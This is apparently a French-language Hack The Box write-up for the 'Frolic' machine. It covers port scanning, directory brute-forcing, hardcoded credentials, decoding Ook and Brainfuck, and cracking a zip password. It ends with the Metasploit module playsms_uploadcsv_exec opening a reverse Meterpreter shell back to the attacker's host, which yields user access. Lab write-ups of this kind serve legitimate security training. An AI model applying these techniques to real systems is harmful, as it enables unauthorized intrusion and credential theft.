 # Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/12/6/1553333910-capture-du-2019-03-23-10-37-40.png)

Informations
----
    Ip : 10.10.10.111        Created by : felamos
    Level : Medium           Base Points : 20

Scan nmap
----
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
    |_  256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
    139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: FROLIC)
    445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: FROLIC)
    9999/tcp open  http        nginx 1.10.3 (Ubuntu)
    |_http-server-header: nginx/1.10.3 (Ubuntu)
    |_http-title: Welcome to nginx!
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: frolic
    |   NetBIOS computer name: FROLIC
    |   Domain name: 
    |   FQDN: frolic
    |_  System time: 2019-03-23T14:57:44+05:30
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

Alors il y'a 4 ports open, le 22 pour le SSH, le 139 et 445 pour le Samba, et le port 9999 pour le HTTP qui tourne sous nginx. Une enumération par défault.

HTTP 9999
----
N'oubliez pas d'attribuer le domaine sur le fichier /etc/hosts. Pour justement avoir accéder à la box et au serveur HTTP sans problème.
[![forthebadge made-with-python](https://media.discordapp.net/attachments/556442801085218827/558951107431235596/unknown.png)

    root@Computer:~/htb/box/Frolic/gobuster# /usr/bin/gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://forlic.htb:9999/ -x php,html -o output_file

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://forlic.htb:9999/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output_file
    [+] Status codes : 204,301,302,307,200
    [+] Extensions   : .php,.html
    =====================================================
    /admin (Status: 301)
    /test (Status: 301)
    /dev (Status: 301)
    /backup (Status: 301)
    /playsms (Status: 301)

Comme vous pouvez le voir il y'a un dossier /admin, /test, /backup, /dev et enfin /playsms nous allons un peu regarder le dossier /admin de plus près.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/558962528311443466/unknown.png)
Comme vous pouvez le voir, il y'a un fichier javascript /login.js donc dans ce fichier il y'a sans doute le nom d'utilisateur et le mot de passe.


    root@Computer:~/htb/box/Frolic/gobuster# curl http://10.10.10.111:9999/admin/js/login.js -s
    [...SNIP...]
    if ( username == "admin" && password == "superduperlooperpassword_lol"){
    alert ("Login successfully");
    [...SNIP...]
    
Donc nous avons l'utilisateur et le mot de passe pour se connecter sur la page d'administration et de voir concrètement les informations utiles sur cette page.

    root@Computer:~/htb/box/Frolic# curl http://forlic.htb:9999/admin/success.html
    ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... .....
    ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... .....
    ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! .....
    ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!!
    !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... .....
    ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?.
    ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
    ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... .....
    ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!!
    !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!!
    !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?!
    .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?..
    !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?.
    ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
    !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!!
    !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!!
    !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. .....
    ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!!
    !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!!
    !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .....
    ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
    ..!.! !!!!! !.?.

Ça ressemble beaucoup à Ook, donc nous allons déchiffrer cela sur un site directement et de voir le résultat final. un lien pour déchiffrer le message. https://www.dcode.fr/langage-ook.

Le message déchiffrer est : Nothing here check /asdiSIAJJ0QWE9JAS. Ça ressemble beaucoup à un chemin HTTP donc nous allons voir ça. Donc dans ce dossier il y'a rien de spécial, il y'a du base64 donc je vais essayer de trouver des fichiers assez spécifiques.

    root@Computer:~/htb/box/Frolic/gobuster# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ -x zip,html,php

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Status codes : 301,302,307,200,204
    [+] Extensions   : .zip,.html,.php
    =====================================================
    /crack.zip (Status: 200)
    /index.php (Status: 200)
    
Donc comme vous pouvez le voir il y'a un fichier crack.zip. Donc quand j'essaye de unzip le fichier, le fichier est sécurisé par un mot de passe donc je vais essayer de bruteforce ça pour trouver le mot de passe et de extraire les fichiers.

    root@Computer:~/htb/box/Frolic/gobuster# 7z l crack.zip 

    7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
    p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

    Listing archive: crack.zip

    --
    Path = crack.zip
    Type = zip
    Physical Size = 360

       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2018-09-23 13:44:05 .....          617          176  index.php
    ------------------- ----- ------------ ------------  ------------------------
                                       617          176  1 files, 0 folders
                                  
Donc il y'a un fichier php donc nous allons bruteforce le fichier et de voir les informations nécessaires.

    root@Computer:~/htb/box/Frolic/gobuster# fcrackzip --verbose --use-unzip --dictionary --init-password rockyou.txt crack.zip 
    found file 'index.php', (size cp/uc    176/   617, flags 9, chk 89c3)


    PASSWORD FOUND!!!!: pw == password
    
Donc le mot de passe c'est un mot de passe assez vulnérable donc je vais extraire le fichier zip avec la commande unzip. Du coup après avoir extraire le fichier nous avons un fichier php, et quand nous avons le fichier, le fichier est chiffré.

    root@Computer:~/htb/box/Frolic/gobuster# cat index.php|xxd -r -p|base64 -d > brainfuck 2>/dev/null                                                      
    root@Computer:~/htb/box/Frolic/gobuster# cat brainfuck 
    +++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
    ++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
    <]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
    ++..<
    
Donc concrètement pour déchiffrer cela c'est du brainfuck, c'est un langage de programmation donc pour déchiffrer il faut aller sur le site https://www.dcode.fr/langage-ook.
Brainfuck déchiffrer : idkwhatispass

Donc après avoir chercher pendant quelques temps, j'ai réussis à me connecter en tant que admin sur /playsms donc pour la connexion.

Username : admin</br>
Password : idkwhatispass<br/>

Donc nous pouvons maintenant attaquer pour avoir notre shell grâce à metasploit, car il y'a un exploit spécifique pour playsms, je vous ferais un petit tutorial pour vous montrez comment faire ça manuellement. L'exploit se nomme : exploit/multi/http/playsms_uploadcsv_exec

Shell > User.txt
----
    [*] Started reverse TCP handler on 10.10.14.98:4444 
    [+] Authentication successful: admin:idkwhatispass
    [*] Sending stage (38247 bytes) to 10.10.10.111
    [*] Meterpreter session 1 opened (10.10.14.98:4444 -> 10.10.10.111:45836) at 2019-03-23 14:00:25 +0100

    meterpreter > shell
    Process 2062 created.
    Channel 0 created.
    python -c "import pty;pty.spawn('/bin/bash')"
    www-data@frolic:~/html/playsms$ cd /home/ayush
    www-data@frolic:/home/ayush$ wc -c user.txt
    33 user.txt
    
    
    
    

